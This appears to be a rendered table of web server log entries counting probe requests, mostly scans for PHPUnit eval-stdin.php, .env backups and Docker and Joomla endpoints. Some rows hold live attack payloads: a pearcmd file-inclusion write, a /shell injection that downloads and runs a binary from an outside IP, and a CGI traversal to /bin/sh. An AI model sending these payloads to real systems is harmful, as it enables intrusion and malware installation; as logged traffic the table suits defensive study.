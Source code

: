 |  65 |                     3 | GET /lib/phpunit/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                            |
|  66 |                     3 | GET /lib/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                         |
|  67 |                     3 | GET /laravel/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                     |
|  68 |                     3 | GET /www/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                         |
|  69 |                     3 | GET /console/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                       |
|  70 |                     3 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                                  |
|  71 |                     3 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                              |
|  72 |                     3 | GET /containers/json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                |
|  73 |                     3 | GET /page/contacts HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                  |
|  74 |                     3 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                                                                                                                                                                                                                |
|  75 |                     3 | POST /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh HTTP/1.1                                                                                                                                                                                                                                                                                       |
|  76 |                     2 | GET /.env.bak HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                       |
|  77 |                     2 | GET /api/index.php/v1/config/application?public=true&page%5Boffset%5D=0&page%5Blimit%5D=60 HTTP/1.1                                                                                                                                                                                                                                                                                                                          |
